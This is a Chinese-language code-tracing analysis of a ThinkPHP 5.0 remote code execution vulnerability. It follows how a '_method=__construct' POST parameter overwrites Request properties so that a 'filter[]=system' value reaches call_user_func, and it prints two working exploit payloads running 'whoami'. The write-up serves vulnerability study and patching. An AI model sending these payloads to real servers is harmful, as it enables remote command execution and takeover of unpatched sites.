


### **静态调试跟踪**

**首先定位到漏洞关键点：**

thinkphp/library/think/Request.php:518


在method函数的第二个if分支中，引入了一个外部可控的数据

$_POST[Config::get['var_method'] 。而 var_method 的值为 _method

然后将执行:

method参数可控,这里我们去看下__construct



发现我们配合foreach,其实就已经可以控制全部类中原本拥有的属性了

而在param方法中


当mergeParam为空时,将会执行

```php
$this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
```

跟进$this->get(false)


首先会先获取$_GET的值,(当然这里也可以利用前面的__construct来给$this->get赋值,exp里是用的变量覆盖,本地测试直接get传参也可以)

然后进入$this->input方法


```php
  public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
        }
        $name = (string) $name;
        if ('' != $name) {
            // 解析name
            if (strpos($name, '/')) {
                list($name, $type) = explode('/', $name);
            } else {
                $type = 's';
            }
            // 按.拆分成多维数组进行判断
            foreach (explode('.', $name) as $val) {
                if (isset($data[$val])) {
                    $data = $data[$val];
                } else {
                    // 无输入数据，返回默认值
                    return $default;
                }
            }
            if (is_object($data)) {
                return $data;
            }
        }
 // 解析过滤器
    $filter = $this->getFilter($filter, $default);           #######进入getFilter,此时$default = null, $filter = ''

    if (is_array($data)) {
        array_walk_recursive($data, [$this, 'filterValue'], $filter);
        reset($data);
    } else {
        $this->filterValue($data, $name, $filter);  #######进入filterValue,$data可控,为$get,name='',$filter可控
    }

    if (isset($type) && $data !== $default) {
        // 强制类型转换
        $this->typeCast($data, $type);
    }
    return $data;
}
```


$this->filter 的值是攻击者通过调用 __construct 覆盖控制的。

成功控制$filter

程序继续运行进入filterValue

```php
private function filterValue(&$value, $key, $filters)
{
    $default = array_pop($filters);
    foreach ($filters as $filter) {
        if (is_callable($filter)) {
            // 调用函数或者方法过滤
            $value = call_user_func($filter, $value);   ########成功执行命令
        } elseif (is_scalar($value)) {
            if (false !== strpos($filter, '/')) {
                // 正则过滤
                if (!preg_match($filter, $value)) {
                    // 匹配不成功返回默认值
                    $value = $default;
                    break;
                }
            } elseif (!empty($filter)) {
                // filter函数不存在时, 则使用filter_var进行过滤
                // filter为非整形值时, 调用filter_id取得过滤id
                $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                if (false === $value) {
                    $value = $default;
                    break;
                }
            }
        }
    }
    return $this->filterExp($value);
}
```

分析一下EXP

```
get:

s=captcha

post:

_method=__construct&filter[]=system&method=get&get[]=whoami
```

我们发现,除开之前分析的那几个参数还有几个参数是没有分析到的,s=captcha method=get,这里就需要根据整个流程分析一下了 

参考链接https://xz.aliyun.com/t/3845#toc-1


# 整体流程分析

先传参:s=captcha,打上断点



然后经过该段代码获得$dispatch

```php
if (empty($dispatch)) {
                $dispatch = self::routeCheck($request, $config);
            }
```


再往下走

```php
$data = self::exec($dispatch, $config);
```

这段是关键函数,跟进去


这里使用instance创建一个对象,然后使用param()方法,


然后使用method方法,结合之前的method=\_\_construct来修改任意参数,但是实际上这里无法像之前分析的那样利用method方法,因为传参为true,所以是不会进入第二个分支的,但是这里可以先留着,等会儿会有其他其他方法来利用这个

再稍微后面一点的代码中


这里就是上面分析到的那个点,接下来跟着上面的思路走就可以命令执行

好的,回到之前的问题,为啥要使用method=get,还记得流程中有一个                $dispatch = self::routeCheck($request, $config);吗,在这里面有一个规则,method=get,不然就会返回dispatch['type']=module,导致后面无法进入理想的which分支


这里的$rules是不同的,因为注册的时候是注册的get


instance会执行__construct  然后后面的param就是之前所分析的


还有一个exp,就不写了,大题差不多

```
get:

s=captcha

post:

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami 
```

